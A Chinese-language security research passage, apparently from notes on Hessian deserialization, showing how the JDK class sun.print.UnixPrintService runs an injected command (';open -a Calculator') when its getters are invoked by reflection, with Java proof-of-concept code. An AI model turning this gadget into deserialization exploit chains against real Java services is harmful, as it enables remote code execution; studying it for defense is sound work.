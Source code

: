 ### 命令执行

在Y4师傅的博客中提到过使用UnixPrintService类去命令执行，在`sun.print.UnixPrintService`的所有get方法都能触发，别看这个是Unix其实linux也有，在高版本被移除(有兴趣自己考古)，利用方式就是简单命令拼接执行（缺点就是太能弹了，基本上每个get方法都能弹）

里面存在一个getAttributes的共有方法

```
Constructor[] constructor =  Class.forName("sun.print.UnixPrintService").getDeclaredConstructors();
constructor[0].setAccessible(true);
UnixPrintService unixPrintService = (UnixPrintService) constructor[0].newInstance(";open -a Calculator");
unixPrintService.getAttributes();
```

![image-20230311142008599](images/32.png)

接着跟进getQueedJobCount方法

![image-20230311142031264](images/33.png)

跟进系统不同调用不同里面的getter方法

![image-20230311142707969](images/34.png)

里面都可以调用execCmd执行命令

![image-20230311142755076](images/35.png)

因为是用string数组的方式去命令执行，所以可以采用管道符进行分割以执行任意命令

```
Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","ls;open -a Calculator"});
```

除此之外，这么多getter方法也不一定非要这样，也可以直接用反射去调用任意的getter方法，像CC1的invokeTransformer就可以直接调用这里的 getter方法去命令执行了

```
package Unser.Hessians;

import sun.print.UnixPrintService;
，
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;

public class hhh {
    public static void main(String[] args) throws Exception{
        Constructor[] constructor =  Class.forName("sun.print.UnixPrintService").getDeclaredConstructors();
        constructor[0].setAccessible(true);
        UnixPrintService unixPrintService = (UnixPrintService) constructor[0].newInstance(";open -a Calculator");
        Method method = unixPrintService.getClass().getDeclaredMethod("getQueuedJobCountAIX");
        method.setAccessible(true);
        method.invoke(unixPrintService,null);
    }
}
```
